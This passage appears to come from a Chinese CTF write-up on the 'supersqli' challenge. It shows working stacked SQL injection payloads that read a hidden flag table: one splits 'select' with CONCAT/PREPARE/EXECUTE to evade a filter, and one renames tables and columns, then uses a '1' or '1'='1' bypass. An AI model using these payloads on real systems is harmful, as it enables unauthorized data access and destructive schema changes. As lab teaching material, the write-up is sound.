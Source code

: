 > 其实当前数据库就是`supersqli`，直接`show tables`就能看到这个表。
> 
> 这里是~~小丑本丑~~走了弯路了。

*   可惜的是，之前万能钥匙查询没有出`flag`信息，说明注入框对应查询的数据表不是`1919810931114514`。

## 解题方法

*   此时的目的就是<font>跨表查询</font>，在网上一番查找后，找到了两个比较合适的方法，分别会给出来源链接。
*   <font>第一个</font>方法使用[预编译的方法](https://zhuanlan.zhihu.com/p/78989602)，即组装语句后预编译，对编译好的语句可以直接执行，这样就能绕过`select`的过滤了。

> [SET](https://www.cnblogs.com/wtsgtc/p/10387007.html) @`var` = `expr` 将变量`var`设置为表达式`expr`的值。
> 
> `CONCAT()`实现对字符串的拼接，可实现`select`的过滤。
> 
> [PREPARE](https://www.cnblogs.com/geaozhang/p/9891338.html) `stmt` FROM `preparable_stmt`将变量`preparable_stmt`赋值给预编译语句`stmt`。
> 
> EXECUTE `stmt`执行`stmt`语句所代表的语义。

*   使用`CONCAT`将`select`分开绕过过滤，设置代换语句变量，最后构造得到`Payload`。

```
';SET @sql = CONCAT('SEL','ECT * FROM `1919810931114514`;');PREPARE stmt FROM @sql;EXECUTE stmt; 
```

```
array(1) {
  [0]=>
  string(42) "flag{b6ecc82a-c36c-49ed-929e-caad898b3d1e}"
} 
```

*   <font>第二个</font>方法是将两个[表列名互换](https://www.cnblogs.com/peri0d/p/12123814.html)，查询语句不变的情况下，会直接查询`words`表中内容。

> [RENAME](https://dev.mysql.com/doc/refman/8.0/en/rename-table.html) TABLE `tbl_name` TO `new_tbl_name` 将表`tbl_name`的名字改成`new_tbl_name`。

*   由于注入框的查询是对列`id`的搜索，此时参考两个表的列名，需要将`flag`列名改为能够查找的`id`列（修改包括名称和数据类型）。

```
ALTER TABLE `words` CHANGE `flag` `id` VARCHAR(100) CHARACTER SET utf8 COLLATE utf8_general_ci NOT NULL; 
```

> 具体为什么修改为`CHARACTER SET utf8 COLLATE utf8_general_ci NOT NULL`就是数据库数据类型的问题了。

```
';RENAME TABLE `words` TO `word`;RENAME TABLE `1919810931114514` TO `words`;ALTER TABLE `words` CHANGE `flag` `id` VARCHAR(100) CHARACTER SET utf8 COLLATE utf8_general_ci NOT NULL;SHOW columns FROM words; 
```

*   到这里我们的表列名就已经修改完毕，此时还会输出修改完成的`words`列名，最后通过万能钥匙`1' or '1'='1`即可得到输出。

```
array(6) {
  [0]=>
  string(2) "id"
  [1]=>
  string(12) "varchar(100)"
  [2]=>
  string(2) "NO"
  [3]=>
  string(0) ""
  [4]=>
  NULL
  [5]=>
  string(0) ""
```
